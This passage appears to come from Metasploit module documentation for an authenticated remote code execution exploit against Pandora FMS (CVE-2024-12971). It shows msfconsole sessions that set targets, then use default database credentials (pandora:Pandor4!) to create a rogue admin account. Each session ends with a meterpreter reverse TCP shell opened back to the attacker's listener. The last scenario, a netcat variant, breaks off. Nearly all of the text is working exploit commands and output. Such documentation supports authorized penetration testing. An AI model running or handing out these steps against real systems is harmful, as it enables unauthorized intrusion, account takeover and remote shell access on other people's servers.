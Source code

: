 ```msf
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.777 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the default database credentials (pandora:Pandor4!) to create an admin user in the application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set target 1
target => 1
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set password xxx
password => xxx
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Found chromium_path RCE. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:xxx at the Pandora FMS Web application.
[*] Logging in with admin credentials failed. Trying to connect to the Pandora MySQL server.
[*] Creating new admin user with credentials 39mqge:nmC9AuEJ5M for access at the Pandora FMS Web application.
[*] Trying to log in with new admin credentials 39mqge:nmC9AuEJ5M at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:48916) at 2025-04-05 11:33:09 +0000
[+] Payload is successful removed from chromium_path path configuration.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : Ubuntu 22.04 (Linux 5.15.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.738 on CentOS 7 - Tiny Netcat Command
Attack scenario: use the payload less then 100 bytes to achieve the RCE.
```msf
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set password pandora
password => pandora
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set target 2
target => 2
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
```